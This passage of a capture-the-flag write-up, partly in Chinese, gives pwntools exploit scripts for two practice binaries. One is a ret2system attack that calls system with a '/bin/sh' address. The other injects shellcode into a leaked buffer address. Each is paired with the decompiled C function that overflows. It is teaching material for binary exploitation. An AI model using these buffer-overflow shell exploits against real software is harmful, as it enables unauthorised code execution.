 ```c
  printf("奥利给");
  return shell();
}
```

### pwn4 ret2system + bin/sh
Shift+F12 能搜到system, 能搜到bin/sh

```python
from pwn import *

file = './pwn4'
sh = process(file)
system_addr = 0x08048410
bin_addr = 0x08048750

junk = 'a' * (0x88 + 4)
payload = flat(junk, system_addr, 0xdeadbeef, bin_addr)

sh.sendline(payload)
sh.interactive()
```


```c
void vulnerable_function()
{
  char buf[128]; // [esp+0h] [ebp-88h]
  read(0, buf, 0x100u);
}
```



### pwn6 ret2shellcode

```python
from pwn import *

file = './pwn6'
sh = process(file)
shellcode = asm(shellcraft.sh())
buf2_addr = sh.recvline().decode().strip('\n')[-8:]
buf2_addr = int(buf2_addr, 16)
payload = flat(shellcode.ljust(0x48 + 4, b'A'), buf2_addr)
sh.sendline(payload)
sh.interactive()
```

```c
void vuln()
{
  char buffer[128]; // [esp+0h] [ebp-C8h]
  char shellcode[64]; // [esp+80h] [ebp-48h]

  printf("shellcode addr = %p\n", shellcode);
  read(0, buffer, 0x80u);
  strcpy(shellcode, buffer);
  // 看清题啊。是用buffer值去覆盖shellcode。所以只要填充shellcode数组就行了 0x48+4
  // 也可以用cyclic试
}
```

